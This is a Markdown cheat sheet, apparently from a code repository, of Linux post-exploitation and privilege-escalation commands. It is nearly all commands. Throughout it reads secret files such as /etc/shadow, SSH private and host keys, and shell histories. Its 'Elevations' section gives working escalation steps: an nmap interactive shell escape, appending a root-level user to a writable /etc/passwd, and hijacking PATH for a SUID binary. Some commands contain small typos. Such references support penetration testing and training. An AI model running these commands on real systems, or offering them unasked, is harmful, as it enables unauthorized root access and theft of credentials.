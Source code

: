 # Reuseful escalation patterns

## Shell

Upgrade to bash:

    python -c 'import pty; pty.spawn("/bin/bash")'

## Host Information

Get OS version, patches, etc.:

    /bin/uname -a
    /usr/bin/lsb_release -a
    /bin/cat /etc/*-release

## User Information

Get current user:

    /usr/bin/whoami
    /usr/bin/id

Get user command history:

    /bin/cat /home/$(whoami)/.bash_history
    /bin/cat /home/$(whoami)/.nano_history
    /bin/cat /home/$(whoami)/.vim_history
    /bin/cat /home/$(whoami)/.atftp_history
    /bin/cat /home/$(whoami)/.mysql_history
    /bin/cat /home/$(whoami)/.php_history

Get environment variables and PATH:

    set
    /bin/echo $PATH

Reset $PATH and environment variables:

    set -a
    source /etc/environment
    . ~/
    set +a

List users:

    /bin/cat /etc/passwd
    /bin/cat /etc/group
    /bin/cat /etc/sudoers

Attempt to list hashed passwords:

    /bin/cat /etc/shadow

Current logon and last logon:

    /usr/bin/w
    /usr/bin/last

SSH information:

    cat ~/.ssh/authorized_keys
    cat ~/.ssh/identity.pub
    cat ~/.ssh/identity
    cat ~/.ssh/id_rsa.pub
    cat ~/.ssh/id_rsa
    cat ~/.ssh/id_dsa.pub
    cat ~/.ssh/id_dsa
    cat /etc/ssh/ssh_config
    cat /etc/ssh/sshd_config
    cat /etc/ssh/ssh_host_dsa_key.pub
    cat /etc/ssh/ssh_host_dsa_key
    cat /etc/ssh/ssh_host_rsa_key.pub
    cat /etc/ssh/ssh_host_rsa_key
    cat /etc/ssh/ssh_host_key.pub
    cat /etc/ssh/ssh_host_key

## Services

Current processes:

    /bin/ps -ef | /bin/grep root
    /bin/ps -ef | /bin/grep $(whoami)
    /bin/netstat -at
    /bin/netstat -atnl
    /bin/ss

## Tasks

List cron jobs:

    /usr/bin/crontab -l
    /bin/ls -alh /var/spool/cron
    /bin/ls -al /etc/ | grep cron
    /bin/ls -al /etc/cron*
    /bin/cat /etc/cron*
    /bin/cat /etc/at.allow
    /bin/cat /etc/at.deny
    /bin/cat /etc/cron.allow
    /bin/cat /etc/cron.deny

## Network

List network configuration:

    /sbin/ifconfig
    /sbin/iwconfig
    /sbin/ip a
    /bin/cat /etc/network/interfaces
    /bin/cat /etc/sysconfig/network
    /bin/cat /etc/resolv.conf
    /bin/cat /etc/sysconfig/network
    /bin/cat /etc/networks
    /sbin/ifconfig -aiptables -L
    /bin/hostname
    /bin/dnsdomainname

## Programs and Binaries

Search for installed programs or binaries:

    /bin/ls -lha /bin
    /bin/ls -lha /usr/bin
    /bin/ls -lha /opt/
    /bin/ls -lha /sbin/
    /bin/ls -lha /var/cache/apt/archivesO
    /bin/ls -lha /var/cache/yum/*
    dpkg -l
    rpm -qa

## Weak Permissions

SUID/SGID, RWX, Current User:

    /usr/bin/find / -type f -perm 0777 2>/dev/null
    /usr/bin/find / -user $(whoami) 2>/dev/null
    /bin/ls -ahlR /home/ 
    /bin/ls -ahlR /root/ 

Files from specific group:

    find / -group <group> 2>/dev/null

Find writable files (newer systems):

    /usr/bin/find / -perm /6000 2> /dev/null
    /usr/bin/find / -perm /4000 2> /dev/null
    /usr/bin/find / -perm -g=s -o -perm /4000 ! -type l -maxdepth 3 -exec /bin/ls -ld {} \; 2>/dev/null
    /usr/bin/find / -perm /222 -type d 2>/dev/null

Find writable files (older systems):

    /usr/bin/find / -perm +6000 2> /dev/null
    /usr/bin/find / -perm +4000 2> /dev/null
    /usr/bin/find / -perm -g=s -o -perm +4000 ! -type l -maxdepth 3 -exec /bin/ls -ld {} \; 2>/dev/null
    /usr/bin/find / -perm -222 -type d 2>/dev/null

## Sudo Permissions

Attempt sudo:

    /usr/bin/sudo su -

See if anything can run with sudo:

    /usr/bin/sudo -l

## Mail

Find mail files:

    /bin/cat /var/mail/root
    /bin/cat /var/mail/${whoami}
    /bin/cat /var/spool/mail/root
    /bin/cat /var/spool/mail/${whoami}

## File System

Mounted drives:

    /bin/df -lh
    /bin/cat /etc/fstab
    /bin/mount | column -t

## Files

Search for potentially sensitive files:

    /usr/bin/find / -type f -name "*.txt" 2> /dev/null
    /usr/bin/find / -type f -name "*.log" 2> /dev/null
    /usr/bin/find / -type f -name "*.sh" 2> /dev/null
    /usr/bin/find / -type f -name "*.rar" 2> /dev/null
    /usr/bin/find / -type f -name "*.zip" 2> /dev/null
    /usr/bin/find / -type f -name "*.tar" 2> /dev/null
    /usr/bin/find / -type f -name "*.gz" 2> /dev/null
    /usr/bin/find / -type f -name "*.pdf" 2> /dev/null
    /usr/bin/find / -type f -name "*.xls" 2> /dev/null
    /usr/bin/find / -type f -name "*.xlsx" 2> /dev/null
    /usr/bin/find / -type f -name "*.xml" 2> /dev/null
    /usr/bin/find / -type f -name "*server.xml" 2> /dev/null
    /usr/bin/find / -name *name* 2> /dev/null
    /usr/bin/find / -type f -iname ".*" -ls 2> /dev/null
    /usr/bin/find -maxdepth 2 -type f -ls -exec file -b {} \;

## Elevations

If the user can sudo with nmap:

    sudo nmap --interactive

Then escape:

    !sh

If `/etc/passwd` is writable:

    openssl passwd -1 -salt <user> <password>

Then run above output with:

    echo "<user>:<output>:0:0:root:/root:/bin/bash" >> /etc/passwd

If a `SUID` file has relative instead of absolute path (example if binary backup runs `cat /etc/shadow` then make a 
file called `cat`:

    echo "<exploit-code" > cat
    chmod +x cat

Then update PATH and run:

    export PATH=~/:$PATH
    ./backup